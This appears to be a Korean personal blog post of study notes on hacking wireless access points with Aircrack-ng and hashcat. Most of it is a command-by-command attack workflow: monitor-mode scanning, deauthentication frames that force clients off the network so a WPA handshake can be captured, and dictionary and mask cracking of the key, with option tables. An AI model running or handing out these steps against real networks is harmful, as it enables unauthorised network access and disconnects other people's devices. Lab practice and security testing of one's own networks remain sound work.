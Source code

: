 ```yaml
---
layout: post
title: Aircrack-ng
subtitle: 무선AP 해킹
author: 마준영
categories: etc
tags:
---
```

```shell
iwconfig #랜카드 이름 확인
sudo airmon-ng start wlan0 #monitor모드 실행, wlan0은 랜카드 이름
sudo airodump-ng wlan0 #스캔 실행
iw list | grep -A 10 Frequencies #랜카드가 주파수 대역이 되는지 확인 Frequencies에서 확인가능
sudo airodump-ng wlan0 --channel 36 #특정 5GHz 채널만 스캔
sudo airodump-ng wlan0 --band a #`--band a` : 5GHz 대역
sudo airodump-ng wlan0 --band abg #`--band abg` : 2.4GHz + 5GHz 전체
sudo airodump-ng wlan0 --band bg #`--band bg` : 2.4GHz전체
sudo airodump-ng wlan0 --band a -w [파일명] #파일로 저장
sudo airodump-ng -c 11 --bssid [공유기 맥주소] -w [저장될 파일명] wlan0 #타겟을 정한 후 채널을 고정하여 스캔하며 대기
sudo aireplay-ng --deauth 10 -a [공유기 맥주소] -c [클라이언트 맥주소] wlan0 #클라이언트의 연결을 강제 종료, 재연결되면 handshake 패킷을 딸 수 있다. deauth는  try횟수
sudo aircrack-ng [캡처파일].cap -w [워드리스트] #사전공격
```

DATA : 패킷량 으로 추정

PSK : Presharedkey, 인데 wifi가 미리 공유된 key값을 이용해서 크랙이 일반적임
SAE,MGT : 찾아보기

WEP, WAP, WAP2, WAP3
OPN

4,6,7,19,25

Handshake 성공시 
![](/assets/images/posts/2025-03-26-aircrack/a04bfe866a566f081c5ff93c3e601a75_MD5.jpeg)

Crack 성공시
![](/assets/images/posts/2025-03-26-aircrack/a7623d10a8117b57a88d3995f81f0be8_MD5.jpeg)

## hashcat으로 크랙
딕셔너리 기반은 현실적이지 않은 것 같다.
hashcat으로 해보자.
```shell
aircrack-ng [파일이름].cap -J [출력파일명] #hasndshake가 있는 cap파일을 hashcat용으로 변환
hashcat -m 2500 -a 0 handshake.hccapx /usr/share/wordlists/rockyou.txt #안된다
```
- `-m 2500` → WPA/WPA2 (hccapx 포맷)
    
- `-a 0` → 사전(dictionary) 공격
    
- `handshake.hccapx` → 대상 해시 파일
    
- `/usr/share/wordlists/rockyou.txt` → 워드리스트 경로

뭔가 .cap에서 hashcat용으로 변환할때 문제가 있었던 것 같다.
전용 툴을 이용해서 변환해보자.
```shell
hcxpcapngtool -o [만드려는 파일명].hccapx [cap파일].pcapng #특이하게 원본 파일명이 뒤에옴
hcxpcapngtool -o home-01.22000 home-01.cap #확장자는 hccapx든 22000이든 상관 없는듯
hashcat -m 2500 -a 0 handshake.hccapx /usr/share/wordlists/rockyou.txt #만든 파일로 워드리스트 크랙하기, 2500은 구버전이라 안되는거같다. 22000으로 하는게 좋을듯
hashcat -m 22000 -a 3 home-01.22000 ?u?u?u?u?d?d?d?d #마스크공격 예시
```

| 옵션         | 의미                                          |
| ---------- | ------------------------------------------- |
| `-m 0`     | MD5                                         |
| `-m 100`   | SHA1                                        |
| `-m 22000` | **WPA/WPA2 (EAPOL + PMKID)** 👉 우리가 지금 쓰는 거 |
| `-m 2500`  | WPA/WPA2 (구버전 hccapx, 현재는 deprecated)       |
| `-m 3000`  | LM (Windows old password hash)              |
| `-m 1000`  | NTLM (Windows 로그인 해시)                       |

| 옵션     | 공격 방식                     | 설명                   |
| ------ | ------------------------- | -------------------- |
| `-a 0` | **Wordlist (Dictionary)** | 워드리스트에 있는 단어들로 대입 공격 |
| `-a 1` | Combination               | 두 워드리스트를 조합해서 시도     |
| `-a 3` | **Brute-force (마스크 공격)**  | 직접 문자 조합을 정의해서 전수조사  |
| `-a 6` | Hybrid Wordlist + Mask    | 단어 + 마스크 조합          |
| `-a 7` | Hybrid Mask + Wordlist    | 마스크 + 단어 조합          |
